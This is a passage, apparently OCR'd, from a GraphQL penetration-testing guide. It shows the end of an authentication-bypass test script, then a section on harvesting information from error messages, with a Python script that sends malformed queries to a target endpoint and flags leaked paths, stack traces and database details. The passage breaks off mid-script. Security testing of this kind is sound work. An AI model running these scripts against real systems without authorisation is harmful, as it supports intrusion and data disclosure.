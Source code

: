                print("-" * 50)
       
       # Example usage
       test_auth_bypass("https://target.com/graphql")
       ```

- **Advanced exploitation techniques**
  1. **Information disclosure through error messages**:
     - Look for verbose error messages that reveal implementation details
     - Gradually craft malformed queries to trigger different errors
     - Analyze error messages for file paths, database information, or stack traces
     - Map internal architecture based on error information
     - Example Python script for error harvesting:
     ```python
     import requests
     import json
     
     def harvest_error_messages(url):
         headers = {"Content-Type": "application/json"}
         
         # List of queries designed to trigger different errors
         error_triggers = [
             {"name": "Syntax Error", "query": "{ user(id: 1 {}"},
             {"name": "Invalid Field", "query": "{ nonexistentField }"},
             {"name": "Type Mismatch", "query": "{ user(id: \"string_instead_of_int\") { id } }"},
             {"name": "Null Value", "query": "{ user(id: null) { id } }"},
             {"name": "Missing Required Arg", "query": "{ user { id } }"},
             {"name": "Invalid Enum", "query": "{ user(role: \"INVALID_ROLE\") { id } }"},
             {"name": "Invalid Operation", "query": "mutation { user { id } }"},
             {"name": "Nested Invalid Field", "query": "{ user(id: 1) { nonexistentField } }"},
         ]
         
         error_collection = {}
         
         for test in error_triggers:
             print(f"[*] Testing: {test['name']}")
             response = requests.post(url, headers=headers, json={"query": test["query"]})
             
             if response.status_code == 200 or response.status_code == 400:
                 try:
                     result = response.json()
                     if "errors" in result:
                         print(f"[+] Error messages found: {len(result['errors'])}")
                         error_collection[test["name"]] = result["errors"]
                         for error in result["errors"]:
                             # Look for sensitive information
                             sensitive_patterns = ["path", "line", "stack", "code", "sql", "database", 
                                                  "file", "internal", "server", "version"]
                             
                             error_msg = json.dumps(error)
                             for pattern in sensitive_patterns:
                                 if pattern in error_msg.lower():
                                     print(f"[+] Sensitive information found ({pattern}): {error.get('message', '')}")
                 except:
                     print("[-] Failed to parse JSON response")
             